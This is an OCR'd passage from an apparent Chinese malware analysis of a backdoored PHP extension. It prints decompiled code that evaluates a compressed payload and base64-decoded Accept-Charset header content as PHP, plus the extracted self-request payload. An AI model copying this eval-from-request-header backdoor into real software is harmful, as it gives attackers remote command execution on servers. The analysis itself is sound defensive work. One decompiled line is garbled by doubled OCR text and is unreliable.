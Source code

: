 ```
    if ( v24 )
    `{`
      v26 = a3;
      *(_DWORD *)(*(_DWORD *)(*a3 + 4 * executor_globals_id - 4) + 296) = v38;
    `}`
    else
    `{`
      v26 = a3;
      zend_eval_string(v41, 0, &amp;rce_cmd, a3);
    `}`
    *(_DWORD *)(*(_DWORD *)(*v26 + 4 * executor_globals_id - 4) + 296) = v25;
    if ( dword_1000D010 &lt; 3600 )
      dword_1000D010 += 3600;
    ftime(&amp;dword_10012AA0);
  `}`
  ftime(&amp;dword_10012AB0);
  if ( dword_10012AA0 &lt; 0 )
    ftime(&amp;dword_10012AA0);
```

当请求头里面不含有Accept-Encoding字段，并且时间戳满足一定条件后，会执行asc_1000D028到unk_1000D66C经过压缩的payload，同第一种情况。

提取后解压得到该payload：

```
@ini_set("display_errors","0");
error_reporting(0);
$h = $_SERVER['HTTP_HOST'];
$p = $_SERVER['SERVER_PORT'];
$fp = fsockopen($h, $p, $errno, $errstr, 5);
if (!$fp) `{`
`}` else `{`
 $out = "GET `{`$_SERVER['SCRIPT_NAME']`}` HTTP/1.1\r\n";
 $out .= "Host: `{`$h`}`\r\n";
 $out .= "Accept-Encoding: compress,gzip\r\n";
 $out .= "Connection: Close\r\n\r\n";

 fwrite($fp, $out);
 fclose($fp);
`}`
```

### 3.RCE远程命令执行

```
ifif  ((  !!strcmpstrcmp((****v34v34,, aGzipDeflate aGzipDefla ) )
    `{`
      if ( zend_hash_find(*(_DWORD *)(*a3 + 4 * executor_globals_id - 4) + 216, aServer, strlen(aServer) + 1, &amp;v39) != -1
        &amp;&amp; zend_hash_find(**v39, aHttpAcceptChar, strlen(aHttpAcceptChar) + 1, &amp;v37) != -1 )
      `{`
        v40 = base64_decode(**v37, strlen((const char *)**v37));
        if ( v40 )
        `{`
          v4 = *(_DWORD *)(*a3 + 4 * executor_globals_id - 4);
          v5 = *(_DWORD *)(v4 + 296);
          *(_DWORD *)(v4 + 296) = &amp;v30;
          v35 = v5;
          v6 = setjmp3((int)&amp;v30, 0);
          v7 = v35;
          if ( v6 )
            *(_DWORD *)(*(_DWORD *)(*a3 + 4 * executor_globals_id - 4) + 296) = v35;
          else
            zend_eval_string(v40, 0, &amp;rce_cmd, a3);
```